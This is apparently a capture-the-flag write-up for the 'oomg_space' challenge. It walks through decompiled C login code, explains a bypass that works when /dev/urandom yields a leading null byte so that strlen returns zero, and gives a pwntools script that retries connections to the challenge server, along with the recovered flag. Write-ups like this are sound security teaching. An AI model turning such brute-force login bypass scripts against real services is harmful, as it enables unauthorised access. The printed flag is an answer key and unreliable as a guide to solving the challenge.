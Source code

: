 # oomg_space [350]

The Sunshine Space Center has posted a bug bounty program! Anyone who can bypass the login screen will be rewarded with an all-expenses-paid one-way trip to Mars!

`nc chal.2020.sunshinectf.org 20001`

**Files**: `oomg_space`

In this writeup, I'll be using the unintended solution (that the challenge authors later patched with a new challenge).

## Solution

This is the part of the code you need to care about:

```c
char random_49_bytes[50];
bool compare_password(char *rand, char *pass, size_t len) {
    /* code to compare the first `len` bytes of `rand` with `pass` */
}
void puts_no_newline(char *s) { /* code to print a string without adding a newline */ }
void show_flag() { /* code to print the flag */ }

char *init_random_bytes() {
  unsigned int urand = open("/dev/urandom", 0);
  read(urand, random_49_bytes, 49);
  close(urand);
  random_49_bytes[49] = 0;
  return random_49_bytes;
}

bool login() {
  char username[16]; // [rsp-28h] [rbp-28h]
  puts_no_newline("USER\n");
  memset(username, 0, 16); // internally this is just MOVs
  read(0, username, 16);
  if (strcmp(username, "admin")) {
    puts_no_newline("BAD USER ");
    puts_no_newline(username);     // Note that this allows us to leak the location of random_49_bytes
    puts_no_newline("\n");
    return 0;
  }
  puts_no_newline("PASSWORD\n");
  long long passwd_len = 0;
  read(0, &passwd_len, 8);
  passwd_len = byteswapped(passwd_len);
  char *passwd = (char *)malloc_(passwd_len + 1LL); //note that 0xffffffffffffffff+1 == 0
  read(0, passwd, passwd_len);
  passwd[passwd_len] = 0;
  if (compare_passwd(random_49_bytes, passwd, strlen(random_49_bytes))) {
    puts_no_newline("LOGIN FAIL\n");
    exit(1);
  }
  puts_no_newline("LOGIN SUCCESS\n");
  return 1;
}

int main() {
  init_random_bytes();
  puts_no_newline("HELLO\n");
  puts_no_newline("SERVER sunshine.space.center.local\n");
  int password_tries_remaining = 3;
  while (password_tries_remaining-- > 0) {
    if (login()) {
      show_flag();
      usleep(100000);
      return 0;
    }
    puts_no_newline("AGAIN\n");
  }
  puts_no_newline("LOCKOUT\n");
}
```
The goal is to pass the password check in `login()` in order to get the flag printed. This is done by a one-shot string comparsion between a user-inputted password against 49 bytes of output from /dev/urandom.

`strlen()` is used to get the length of `random_49_bytes`. If `strlen(random_49_bytes)` happens to be 0, the check with `compare_passwd` will be immediately bypassed. Since `/dev/urandom` can provide null bytes (with a 1/256 probability), we'll just dig at the server until we're lucky enough to land in that situation.

```python
from pwn import *
context.binary = 'oomg_space'
for i in range(1000): #Because there is a 1/256 chance that /urandom gives a 0 first byte, this can work
    p = remote('chal.2020.sunshinectf.org', 20001)
    p.sendafter('USER\n', 'admin')
    p.sendafter('PASSWORD\n', pack((1<<64)-1))  # Just use any number that won't crash.
    print(p.recvall())
```
```sh
$ python3.8 oomg_space.py > a.log
$ grep sun{ a.log
b'LOGIN SUCCESS\nFLAG sun{g0tt4_ch3ck_th053_r37urn_c0d35}\n'
```

It's that simple.